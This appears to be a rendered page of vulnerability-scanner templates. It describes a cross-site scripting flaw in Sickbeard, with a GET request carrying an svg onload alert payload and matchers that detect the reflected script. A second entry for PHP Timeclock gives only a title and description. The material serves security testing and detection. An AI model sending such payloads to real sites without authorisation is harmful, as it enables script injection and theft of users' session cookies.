 **Type - status**

- status
  1. 200

---

# Sickbeard - Cross-Site Scripting

## Description

- Sickbeard contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/config/postProcessing/testNaming?pattern=%3Csvg/onload=alert(document.domain)%3E

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. \<svg/onload=alert(document.domain)>
- part - body

**Type - word**

- words
  1. text/html
- part - header

---

# PHP Timeclock \<=1.04 - Cross-Site Scripting

## Description

- PHP Timeclock 1.04 and prior contains multiple cross-site scripting vulnerabilities via login.php, timeclock.php, reports/audit.php. and reports/timerpt.php
- severity - high
- tags - xss,php,timeclock,edb
